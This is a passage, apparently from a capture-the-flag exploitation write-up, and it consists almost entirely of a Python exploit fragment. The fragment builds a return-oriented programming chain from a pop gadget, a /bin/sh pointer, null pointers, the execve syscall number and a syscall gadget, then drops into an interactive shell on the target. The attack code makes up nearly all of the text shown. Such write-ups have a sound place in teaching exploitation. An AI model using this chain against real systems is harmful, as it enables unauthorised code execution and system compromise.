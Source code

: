 ```python

# junking next stack cell
sender(b'BBBB')
sender(b'BBBB')

# setting up the stack to spawn the shell

# address of pop gadget
sender(p64(magic_gadget[0]))
sender(b'\x00'*4)

# address of /bin/sh
sender(p64(binsh_addr))

# pointer to zero
sender(p64(zeros_addr))
sender(b'\x00'*4)

# pointer to zero
sender(p64(zeros_addr))

# # syscall code
sender(b'\x3b')
sender(b'\x00'*4)

# syscall gadget address
sender(p64(syscall[0]))
sender(b'\x00'*4)

# breaking the loop
input('[#1] press any key to break the loop...')
r.send(b'A')
sleep(delay)
input('[#2] press any key to break the loop...')
r.send(b'A')
sleep(delay)
input('[#3] press any key to break the loop...')
r.send(b'A')
sleep(delay)

input('press any key to send /bin/sh')
r.send(b'/bin/sh\x00')
sleep(delay)

# hopefully getting a shell
r.interactive()
```

## Reversing
